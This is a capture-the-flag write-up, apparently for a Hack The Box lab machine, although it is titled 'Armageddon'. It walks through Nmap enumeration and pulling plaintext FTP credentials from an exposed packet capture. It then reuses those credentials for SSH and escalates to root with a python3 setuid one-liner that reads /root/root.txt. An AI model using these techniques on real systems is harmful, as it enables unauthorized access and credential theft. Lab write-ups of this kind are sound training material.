#+TITLE: Armageddon
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: armageddon

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT


* Enumeration

Starting off with =Nmap= (it was rather slow for this machine, for some reason):

#+BEGIN_SRC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 17:55 WEST
Nmap scan report for 10.10.10.245
Host is up (0.042s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 03 Jul 2021 16:55:35 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 03 Jul 2021 16:55:30 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 03 Jul 2021 16:55:30 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=7/3%Time=60E096A8%P=x86_64-unknown-linux-gnu%r(
SF:GetRequest,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Sat,\x2003\x20Jul\x202021\x2016:55:30\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en
SF:\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x2
SF:0\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\
SF:x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"i
SF:mage/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css
SF:/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20
SF:rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x2
SF:0\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stat
SF:ic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOp
SF:tions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sat
SF:,\x2003\x20Jul\x202021\x2016:55:30\x20GMT\r\nConnection:\x20close\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x
SF:20OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20
SF:\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bo
SF:dy>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20In
SF:valid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;
SF:RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest
SF:,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Sat,\x2003\x20Jul\x202021\x2016:55:35\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2
SF:\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found<
SF:/h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x2
SF:0server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x
SF:20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.32 seconds
#+END_SRC

There is an FTP service running here because port 21 is open and is running the =vsftpd= service version =3.0.3=.
As expected there is also a web service running on port 80. An entry should be added to the =/etc/hosts= file to
access the website more easily through =cap.htb=:

#+begin_src
10.10.10.245 cap.htb
#+end_src

Accessing the website, we can see that we’re already “logged in” as =Nathan=. We have access to the network status, ip config and security network five second snapshots in the PCAP format.

[[./images/img1.png]]

* User

After accessing the webpage to get the PCAP files, the URL was =http://cap.htb/data/21=. The number =21= seems to refer to the snapshot number/index.
When trying =http://cap.htb/data/20=, it also works. Using this logic, the URL =http://cap.htb/data/0= has the first snapshot of them all. The first one could be the most interesting because of possible plaintext passwords through FTP. If the first one does not have anything interesting, the following ones should be analyzed.
A great software to check the contents of PCAP files is =WireShark=, that is the one we’ll be using. After opening the file, we can see that there are many HTTP requests at first, but there is a second section with mostly FTP requests. From there we can see that there was a login request for the user =nathan=. Obviously, password comes after and since its FTP, it is in plaintext:

[[./images/img2.png]]

Having these FTP credentials, all we can do now is login on port 21 using an FTP client. We’ll be using FileZilla. The login redirects us to =/home/nathan= directory, which has the =user.txt=.
Since most users use the same password everywhere, the =username:password= combination found can also be used to access the machine through SSH.

* Root

Getting the root here can be tricky. But one thing we know is that the website does show the output of some shell commands(=ipconfig= and =netstat=). So the first thing that we can do is check =/var/www/html= to see the websites code. By showing the contents of the =app.py= file, we see that the website is made in Flask. In the file, there is a function called =capture()= where a system command is used to obtain the PCAP files. It is using =tcpdump=, and it is being ran as root, obviously:

#+begin_src python
@app.route("/capture")
@limiter.limit("10 per minute")
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))
#+end_src

So, to actually get the root flag, we need to execute the same general command, but instead of =tcdump=, we access =/root/root.txt=:

#+begin_src
$ python3 -c 'import os; os.setuid(0); os.system("cat /root/root.txt")'
#+end_src

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/htb/index.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">24-04-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
